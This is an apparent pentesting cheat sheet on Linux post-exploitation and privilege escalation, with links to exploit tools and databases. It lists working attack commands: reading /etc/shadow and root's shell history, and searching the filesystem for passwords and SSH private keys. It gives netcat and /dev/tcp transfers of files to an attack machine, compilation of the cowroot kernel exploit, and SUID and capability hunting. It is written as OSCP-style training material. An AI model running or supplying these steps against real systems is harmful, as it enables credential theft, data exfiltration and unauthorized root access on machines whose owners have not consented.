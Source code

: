 # Linux Post Exploitation

## Resources
- [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [Linux Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [Checklist - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)
- [Sushant 747's Guide (Country dependant - may need VPN)](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)

### Exploring Automated Tools
- LinPEAS: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- LinEnum: https://github.com/rebootuser/LinEnum
- Linux exploit suggester: https://github.com/mzet-/linux-exploit-suggester
- LinuxPrivChecker: https://github.com/sleventyeleven/linuxprivchecker

### Escalation Path: Kernel Exploits
- Kernel Exploits: https://github.com/lucyoa/kernel-exploits

### Escalation Path: Sudo
- GTFOBins: https://gtfobins.github.io/
- wget example: https://veteransec.com/2018/09/29/hack-the-box-sunday-walkthrough/
- dirsearch: https://github.com/maurosoria/dirsearch
- CMS Made Simple ExploitDB: https://www.exploit-db.com/exploits/46635
- CVE-2019-14287 ExploitDB: https://www.exploit-db.com/exploits/46635
- CVE-2019-18634 GitHub: https://github.com/saleemrashid/sudo-cve-2019-18634

### Escalation Path: Other SUID Escalation
- Nginx Exploit: http://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html

### Escalation Path: Capabilities
- Priv Esc using Capabilities: https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/
- SUID vs. Capabilities: https://mn3m.info/posts/suid-vs-capabilities/
- Capabilites Priv Esc w/ OpennSLL and Selinux enabled and enforced: https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099

## Commands to Run on Connecting
````bash
### System Enumeration
hostname
uname -a 
cat /proc/version
lscpu #Helps understand what kind of kernel exploit you can run.
ps aux
ps aux | grep {requested user}
date; date -u 

### User Enumeration
whoami
id
sudo -l
w # Finds what logged in users are doing.
cat /etc/passwd
cat /etc/shadow
cat /etc/group
history
cat /root/.bash_history 
cat ~/.bash_history
cat /etc/crontab 
ls -la /etc/cron.* #As needed, examine the files/scripts shown in the directory listing of the cron.* directories 
for user in $(cut -f1 -d: /etc/passwd); do echo "###### $user crontab is:"; cat /var/spool/cron/{crontabs/$user,$user} 2>/dev/null; done 
ls -latr / 
ls -latr /tmp 
ls -latr . 
ls -latr .. 
ls -latr /root 
df 
ls -latr /var/*acc* 
ls -latr /var/*log*/ 
ls -latr /var/log/* 
cat out relevant files #grep for your logged in user account 
ls -la /etc/*syslog* read all the config files 

### Network Enumeration
ifconfig | ip a
route | ip route
arp -a | ip neigh
netstat -ano

### Password Hunting
grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null
grep --color=auto -rnw '/' -ie "PASSWD=" --color=always 2> /dev/null
locate password | more
locate passwd | more
find / -name authorized_keys
find / -name id_rsa

````

## File Transfers (for exploits or automated scripts)
https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65 

**Python** 

1. To transfer exploits. On the attack machine run the following in the folder that has the exploit: 

`python -m SimpleHTTPServer `

-or- 

`python3 -m http.server 8081 ([Optional: port]) `

2. On the target machine I pull the file with: 

`wget [attack box ip] :8000/[filename] `

**Linux -> Windows (Base 64)**
***

1.  Copy contents 

`base64 [file] | xclip -selection -clipboard` 

2. On Windows: open notepad, paste and save as txt on desktop 

3. On Windows terminal, cd to desktop run: 

`certutil -decode [file].txt [file].exe` 

**Netcat**
*** 

1. On target host:  

`nc -lvp 8080 > /root/Desktop/transfer.txt` 

2. On attack box:  

`nc [target ip] 8080 < /root/Desktop/transfer.txt`

**File Transfer With /dev/tcp**
***

- Once you send with /dev/tcp it doesn’t wait for any more data. This method is useful for host that does not have NETCAT available. 

1. On target host:  

`nc -lp 1111 > file.txt` 

2. On attack box:  

`cat file.txt > /dev/tcp/10.2.0.2/1111` 

**FTP**
***
1. Host the files from your attacker machine: `python -m pyftpdlib 21`
2. Connect to ftp from the target machine: `ftp {attacker IP}`

## Kernel Exploits
1. Search for kernel vulnerability of linux version.
2. Compile the exploit and run. You may need follow on steps to switch to root user.

````bash
#When all else fails. Run Cowroot. 
gcc cowroot.c -o cowroot -pthread 

#Cross compile Exploits 
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe 
````  
- Kernel Exploits - https://github.com/lucyoa/kernel-exploits

## Escalation with found Passwords
- Simply search for username and password credentials using search tools as listed above.
- Check for passwords in the history.
- Check read or write permissions for /etc/passwd and /etc/shadow

## Escalation with SSH
1. Search for authorized keys or private keys.

````bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
````

2. Attempt to login with ssh -i id_rsa root@{ip} after copying the key info to a file on your attack box.

## Escalation with SUID/Sudo

````bash
## Manually check for permissions. Cross reference the output with https://gtfobins.github.io/ AND a good google search for intended functionallity abuses.

## 4000=SUID 
## 2000=world writable 

sudo -l 

getcap -r / 2>/dev/null  

## Anything that returns a setuid is something you can crossreference in gtfobins. 

find / -type f -perm /4000 2>/dev/null   

find / -type f -perm /2000 2>/dev/null 

find / -perm -4 -type f 2>/dev/null  

find / -perm -2 -type f 2>/dev/null  

# World writable directories: 

find / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2>/dev/null | grep -v root 

# World writable files: 

find / \( -wholename '/home/homedir/*' -prune -o -wholename '/proc/*' -prune \) -o \( -type f -perm -0002 \) -exec ls -l '{}' ';' 2>/dev/null 
````

